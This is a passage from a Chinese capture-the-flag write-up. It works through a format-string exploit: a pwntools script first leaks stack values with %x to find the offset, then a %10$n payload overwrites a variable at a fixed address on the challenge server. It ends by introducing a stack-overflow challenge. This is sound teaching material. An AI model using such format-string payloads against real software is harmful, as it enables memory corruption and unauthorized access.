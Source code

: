 `printf()`的标准格式是: printf(“&lt;格式化字符串&gt;”,&lt;参量表&gt;)

首先我们找出偏移量

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *

c = remote("111.198.29.45", 53486)
c.sendlineafter('name:', 'aaa')
c.sendlineafter('please:', 'AAAA %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x')
c.interactive()
```

`AAAA` 其实就是 `十进制ascii 65-&gt;0x41 (16进制)` 这样看起来比较方便。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_321_/t01312427c7e5d22d64.jpg)

我们可以看到AAAA 相对于格式化字符串的偏移量是10。

[![](https://p5.ssl.qhimg.com/dm/1024_133_/t010120bee31a964b12.jpg)](https://p5.ssl.qhimg.com/dm/1024_133_/t010120bee31a964b12.jpg)

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *

c = remote("111.198.29.45", 53486)
payload = p32(0x0804A068) + '1234' + '%10$n'
c.sendlineafter('name:', 'aaa')
c.sendlineafter('please:', payload)
c.interactive()
```

这里需要介绍`%n`在格式化字符串中作用

> %n: 将%n 之前printf已经打印的字符个数赋值给格式化字符串对应偏移地址位置。

这里因为要pwnme为8,所以我们构造`p32(0x0804A068) + '1234'`8个字节,然后`%10$n`进行赋值给`p32(0x0804A068)`地址,从而pwn掉。

### <a class="reference-link" name="0x3%20when_did_you_born"></a>0x3 when_did_you_born

#### <a class="reference-link" name="(1)%E9%A2%98%E7%9B%AE%E6%8F%8F%E8%BF%B0%E5%8F%8A%E5%85%B6%E8%80%83%E7%82%B9"></a>(1)题目描述及其考点

> <p>只要知道你的年龄就能获得flag，但菜鸡发现无论如何输入都不正确，怎么办<br>
考点: 栈溢出</p>
